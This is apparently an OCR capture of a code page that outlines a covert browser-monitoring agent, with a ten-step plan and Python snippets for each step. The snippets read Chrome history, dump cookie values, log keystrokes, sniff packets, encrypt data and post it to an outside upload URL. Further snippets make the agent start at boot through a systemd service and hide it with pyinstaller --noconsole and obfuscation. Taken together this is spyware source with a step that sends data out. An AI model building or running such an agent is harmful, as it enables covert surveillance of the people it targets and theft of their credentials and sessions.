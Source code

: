 1. Hook browser process
2. Extract browsing history (SQLite for Chromium, JSON for Firefox)
3. Read and decrypt cookies (browser-cookie3, keyring)
4. Monitor in real-time (psutil for process polling, watchdog for file change)
5. Capture session data (active tab URL, tab switching via accessibility APIs or browser automation)
6. Keylogging (pynput, only under explicit authorization)
7. Network packet capture (scapy or pyshark)
8. Export and send data (requests, encryption with cryptography or pycryptodome)
9. Persist on boot (Windows service, Linux systemd)
10. Hide execution (pyinstaller --noconsole, rename process, obfuscate script)


**1. Extract Chrome history (SQLite)**

```python
import sqlite3
import os

path = os.path.expanduser("~/.config/google-chrome/Default/History")
conn = sqlite3.connect(path)
cursor = conn.cursor()
cursor.execute("SELECT url, title, last_visit_time FROM urls ORDER BY last_visit_time DESC")
for row in cursor.fetchall():
    print(row)
conn.close()
```

**2. Extract cookies (browser-cookie3)**

```python
import browser_cookie3

cj = browser_cookie3.chrome()
for cookie in cj:
    print(cookie.domain, cookie.name, cookie.value)
```

**3. Real-time file monitoring (watchdog)**

```python
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler

class Handler(FileSystemEventHandler):
    def on_modified(self, event):
        print(f'Modified: {event.src_path}')

observer = Observer()
observer.schedule(Handler(), path='.', recursive=False)
observer.start()
```

**4. Process polling (psutil)**

```python
import psutil

for proc in psutil.process_iter(['pid', 'name']):
    if 'chrome' in proc.info['name'].lower():
        print(proc.info)
```

**5. Keylogging (pynput)**

```python
from pynput import keyboard

def on_press(key):
    print(f'Key {key} pressed')

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

**6. Packet sniffing (scapy)**

```python
from scapy.all import sniff

def packet_callback(packet):
    print(packet.summary())

sniff(prn=packet_callback, store=0)
```

**7. Encrypt and export data (cryptography + requests)**

```python
from cryptography.fernet import Fernet
import requests

key = Fernet.generate_key()
cipher = Fernet(key)
data = b'secret data'
encrypted = cipher.encrypt(data)

requests.post('http://example.com/upload', data=encrypted)
```

**8. Install on boot (Windows, pywin32)**

```python
import win32serviceutil

# Create a .bat file to register the script as a Windows service, or use NSSM
```

**9. Install on boot (Linux, systemd)**

```ini
# /etc/systemd/system/browsewatch.service
[Unit]
Description=Browsewatch

[Service]
ExecStart=/usr/bin/python3 /path/to/agent.py
Restart=always

[Install]
WantedBy=multi-user.target
```

```bash
sudo systemctl enable browsewatch
sudo systemctl start browsewatch
```

**10. Obfuscation (PyInstaller)**

```bash
pyinstaller --noconsole --onefile agent.py
```
